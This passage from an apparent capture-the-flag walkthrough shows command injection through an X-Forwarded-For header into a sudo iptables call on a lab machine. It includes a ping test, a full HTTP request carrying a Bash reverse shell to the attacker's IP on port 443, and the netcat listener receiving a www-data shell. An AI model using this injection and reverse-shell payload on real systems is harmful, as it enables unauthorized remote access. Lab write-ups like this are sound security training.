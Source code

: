 With `tcpdump` listening, I’ll send the request. I get a ping:

```

oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:28:32.771157 IP 10.10.11.128 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
16:28:32.771182 IP 10.10.14.6 > 10.10.11.128: ICMP echo reply, id 1, seq 1, length 64

```

It’s important to have the trailing `;` after my command. Otherwise, it makes:

```

sudo /usr/sbin/iptables -A INPUT -s 1.1.1.1; ping -c 1 10.10.14.6 -j ACCEPT

```

This command will result in an error saying that `ping` has no option `-j`.

#### Reverse Shell

It’s possible that special characters will mess things up, but the first I tried was to just drop a Bash reverse shell into the header:

```

GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
Upgrade-Insecure-Requests: 1
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1";

```

On sending (with `nc` listening), it worked:

```

oxdf@parrot$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.128 49486
bash: cannot set terminal process group (793): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$ 

```

I’ll upgrade my shell with `script`:
